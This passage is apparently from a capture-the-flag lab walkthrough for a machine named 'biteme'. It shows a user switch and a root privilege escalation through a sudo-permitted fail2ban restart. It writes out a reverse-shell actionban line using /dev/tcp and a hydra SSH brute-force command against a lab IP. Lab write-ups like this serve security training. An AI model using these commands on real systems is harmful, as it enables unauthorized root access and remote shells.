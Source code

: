 We can run any commands as fred without a password, let's switch users then:

```
sudo -u fred /bin/bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250609163806.png)

Let's check our privileges then:

```
fred@biteme:~$ sudo -l
Matching Defaults entries for fred on biteme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on biteme:
    (root) NOPASSWD: /bin/systemctl restart fail2ban
```

We can restart the fail2ban service, let's check info on how to escalate privileges with it:

PRIVESC: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-privilege-escalation/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=es&\_x\_tr\_pto=tc

![](gitbook/cybersecurity/images/Pasted%20image%2020250609164244.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250609164300.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250609164312.png)

Basically, we need to modify the configuration file, restart the service and trigger the `fail2ban` action to get a shell as root, let's modify:

```
/etc/fail2ban/action.d/iptables-multiport.conf
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250609164528.png)

On here, we need to modify the `actionban` to match a reverse shell, we can do:

```
actionban = bash -c "bash -i >& /dev/tcp/IP/9001 0>&1"
```

Once we modify the file, restart the service with sudo:

```
sudo /bin/systemctl restart fail2ban
```

We now need to set up a listener and trigger `fail2ban` since it is an anti-bruteforce protection service, we need to bruteforce the login, let's use hydra to automate the process:

```
hydra -l random -P /usr/share/wordlists/rockyou.txt ssh://10.10.64.184 -t 40
```
